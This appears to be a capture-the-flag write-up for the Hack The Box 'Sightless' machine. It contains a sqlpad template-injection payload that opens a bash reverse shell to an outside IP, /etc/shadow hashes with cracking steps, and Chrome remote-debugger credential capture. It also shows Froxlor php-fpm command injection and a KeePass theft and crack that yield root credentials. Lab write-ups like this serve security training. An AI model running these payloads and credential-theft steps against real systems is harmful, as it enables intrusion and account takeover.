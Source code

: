 1, Recon
port scan 
	21/tcp ftp
	22/tcp ssh
	80/tcp http `http://sightless.htb/`
Check the services
	ftp: very sad, we could not use anonymous to login.
	http: we find other sub-domains `sqlpad.sightless.htb`, and we did not find anything useful in the main domain.And we successfully find the version of sqlpad
	![](images/Pasted%20image%2020240908101649.png)
	`sqlpad 6.10.0`
	Let's check some exploits of that
	`sqlpad up to 6.10.0 Test Endpoint injection`
	`Template injection in connection test endpoint leads to RCE in sqlpad/sqlpad`
	`https://huntr.com/bounties/46630727-d923-4444-a421-537ecd63e7fb`
```
[6.10.1] - 2022-03-13
Secure connection template functionality. This restricts connection template values to fields on user object, preventing the use of arbitrary JavaScript, as it could be leveraged for abuse. (This functionality was, and still is, only available to admin accounts.)
[6.10.0] - 2022-03-11
Add postgres query timeout config
Add default role config for Google Auth
Update dependencies
```

Then we just follow the page of exploitation and payload is 
`{{ process.mainModule.require('child_process').exec('/bin/bash -c "bash -i >& /dev/tcp/10.10.14.65/443 0>&1"') }}`
Then we can get the root shell of docker and we can get the `/etc/shadow` and get the password of root or others.
```
root:$6$jn8fwk6LVJ9IYw30$qwtrfWTITUro8fEJbReUc7nXyx2wwJsnYdZYm9nMQDHP8SYm33uisO9gZ20LGaepC3ch6Bb2z/lEpBM90Ra4b.:19858:0:99999:7:::

michael:$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/:19860:0:99999:7:::
```
Let's use the john or hashcat to crack them.
Then we get the password `insaneclownposse`

Let's use ssh to get the michael shell.

2, shell as root
When we check the `sudo -l`, there is nothing
```
sudo -l
[sudo] password for michael: 
Sorry, user michael may not run sudo on sightless.
```

Then let's check the netstate
```
netstat -ntlp
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8080 
```
These would be useful for us.
`3306 mysql`
`8080 would be interesting for us.`
When we try to curl it, we successful get some response.
So let's Port forwarding it to our localhost.
`ssh -L 8080:localhost:8080 michael@10.10.11.32`

Then we just check `http://localhost:8080`, we get 
![](images/Pasted%20image%2020240908110234.png)
We get the name of service `froxlor` and we need to add the domain
```
michael@sightless:~$ cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 sightless
127.0.0.1 sightless.htb sqlpad.sightless.htb admin.sightless.htb
```
Then  we successfully come to the login page
![](images/Pasted%20image%2020240908110618.png)
So let's try to use the cred `michael:insaneclownposse`, but we failed

So let's come to the machine and we find another user `john` and we don't have permission to check its directory.

So I think it would useful for us.

`there are some other ports on 127.0.0.1 on my box on port 39149 is session for `
`https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/chrome-remote-debugger-pentesting/`

`Chrome Remote Debugger Pentesting`

So we need to check `If the target system is running Google Chrome Debugger with specific port,`

We need the `pspy` to help us.
```
/bin/sh -c sleep 110 && /usr/bin/python3 /home/john/automation/administration.py

CMD: UID=1001 PID=1624   | /opt/google/chrome/chrome --type=zygote --no-sandbox --enable-logging --headless --log-level=0 --headless --crashpad-handler-pid=1619 --enable-crash-reporter 
```
So I guess it would be true for our guess.
```
tcp        0      0 127.0.0.1:38607         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:45305
```
So one of them would be the result of that.
```
open chrome 
go to chrome://inspect/#devices
configure> add 127.0.0.1:52253
add them all until you see a connection pop up > inspect it > new window pops up , go to network tab and wait for him to login > look at the index.php to find the creds to login portal on 127.0.0.1:8080

```

Then we can get the credit
In the payload tab, we can catch the credit of admin.
![](images/Pasted%20image%2020240909085129.png)
`admin : ForlorfroxAdmin`

There is a tricky way to get the root.txt
```
login > PHP > PHP-FPM versions > create new > In php-fpm restart command form field use
cp /root/root.txt /tmp/root.txt
save it > go to http://127.0.0.1:8080/admin_settings.php?page=overview&part=phpfpm > disable it and save > go back and re-enable it and save. This executes the copy command.
verify you have the file in /tmp
then repeat process but use 

chmod 644 /tmp/root.txt

PS: when we just want to upload a reverse shell it would be failed

#### Error
The value for the field "reload_cmd" is not in the expected format.
```

And there would be another way to get the root shell.
```
Resources -> Customers -> Click in the web1 username -> FTP -> Accounts -> Edit -> Change password

Then connect to ftp
lftp -u web1 ip
lftp web1@240.0.0.1:~> set ssl:verify-certificate off
lftp web1@240.0.0.1:~> ls

get the database.kdb

keepass2john Database.kdb >> Database.hash

you can remove the username in Database.hash or use --user in hashcat

hashcat --identify Database.hash --user
      # | Name                                                      | Category
  ======+============================================================+======================================
  13400 | KeePass 1 (AES/Twofish) and KeePass 2 (AES)                | Password Manager
  29700 | KeePass 1 (AES/Twofish) and KeePass 2 (AES) - keyfile only mode | Password Manager

hashcat -m 13400 Database.hash /usr/share/wordlists/rockyou.txt --user --force -a -w 3

password `bulldogs`

Then we get ssh credit
`root:q6gnLTB74L132TMdFCpk` and a id_rsa file
```

Then we can get the root shell by ssh.

